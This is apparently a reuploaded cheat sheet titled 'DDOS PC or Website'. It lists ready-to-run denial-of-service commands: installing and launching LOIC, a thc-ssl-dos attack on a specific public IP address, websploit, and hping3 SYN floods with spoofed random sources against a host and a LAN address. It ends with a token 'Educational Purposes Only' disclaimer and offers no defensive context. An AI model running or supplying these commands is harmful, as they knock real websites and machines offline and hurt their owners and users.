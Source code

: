 # DDOS PC or Website
#install Loic

apt-get install git-core monodevelop

cd loic/ && ./loic.sh run
thc-ssl-dos -l 200 103.53.198.154 80 --accept

websploit
hping3 -c 100000 -d 120 -S -p 80 --flood --rand-source 
hping3 -c 1000000 --flood -S 192.168.1.108 > For Pc

#Disclaimer Educational Purposes Only
Reupload by fireorb
